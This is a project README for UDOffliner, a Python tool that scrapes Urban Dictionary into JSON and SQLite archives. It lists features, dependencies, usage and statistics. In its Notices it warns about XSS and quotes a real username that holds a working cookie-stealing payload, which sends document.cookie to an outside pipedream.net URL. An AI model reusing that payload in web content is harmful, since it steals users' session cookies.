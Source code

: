 # UDOffliner

Create a backup of the UrbanDictionary for archival purposes.

DISCLAIMER: This project is in not affiliated with the UrbanDictionary website in any way shape or form.

### Features:

* [x] generate a `wordlist.json`
* [x] download all definitions into json files
  * [x] description
  * [x] examples
  * [x] date
  * [x] author
  * [x] votes
* [x] unify json files
* [x] generate SQLite database
* [x] static site generator

### Notices:

* in order to not DDOS the server it sleeps between each request and therefore takes at least 3 days.
* if anything goes wrong it throws an error, never catches it, and crashes. since it regularly (every 1000 words) saves it shouldnt be too bad.
* this uses webscraping and therefore might break at any point if UD changes their html layout.
* when further processing the data keep in mind that some people try to use XSS. the following is a real username: `">'><img src=x onerror=this.src='https://979a41ce4a43a6b13026a4e627cea02b.m.pipedream.net/my.urbandictionary.com/handle.php?cookie=' document.cookie '--' document.domain;this.removeAttribute('onerror'); >`

### Dependencies:

Required:

* Python3 (programming language) (preferably 3.11 since that one has been tested)
* BeautifulSoup4 (html parser)
* requests (http request sender)

Optional:

* GNU Make (automatically run scripts in correct order)

Helpful for further exploration / use:

* [nushell](https://github.com/nushell/nushell) is great for exploring and converting data.
* `gzip` can be used to compress them and reduce the storage space needed.
* [dbeaver](https://dbeaver.io/) is great for exploring SQL (if you know SQL).

### Usage:

1. clone this git repo and open a terminal in it ([tutorial](https://www.atlassian.com/git/tutorials/setting-up-a-repository/git-clone)).
2. check the code for viruses. no it does not contain any, but i could be lying and you should always check.
3. install all dependencies.
4. run `make all`.
  * or `make staticsite`

alternative to `make all`:
```bash
python3 ./download_data.py
python3 ./unify.py until_idx_*.json > ud.json
python3 ./toSqlite.py ud.json ud.sqlite3
```

Resulting files:

* `wordlist.json`: A list of all "words" (pages). Used for caching / later processing.
* `until_idx_*.json`: All words up until (counted) index x. Used for caching / later processing.
* `ud.json`: The entirety of UD in a single JSON file.
* `ud.sqlite3`: The entirety of UD in a single SQLite3 database.

Datafield / Colums / .. explanations:

* `DefinitionId` (sql) / `id` (json): UD's ID for the definition (not word).
* `Word`: The word as stylised by the definition author.
* `Meaning` / `definition`: The translation of the word provided by that definition.
* `AuthorName`: UD username of whoever wrote the definition.
* `DefinitionDate`: when was it defined (json uses `YYYY-MM-DD` format).
* `Upvotes`: the count of upvotes on UD.
* `Downvotes`: the count of downvotes on UD.
* `Examples`: A list of examples given by the definition author. (own table in SQL since multiple can be given.)
* `Pagenames`: HTTP/HTML pagename from where the definition was pulled. Since some are on multiple this is a list / own table.

### Some fun statistics about UD

(state: `2024-05`)

Count  | Thing
-----: | :----------
25,369 | Words
29,229 | Authors
31,410 | Definitions

Most upvoted definition (54,102): `qwertyuiopasdfghjklzxcvbnm`: `A phenomena that happens to a computer's keyboard when a human being is bored to death...` by `Kaiser291`.

First definition (2000-01-20): `h2h`: `"heart to heart"spill your guts to a friend during a heart to heart conversationactually the person doesn't even have to be a friend. go have a h2h with some random person on the street.` by `alpha`.
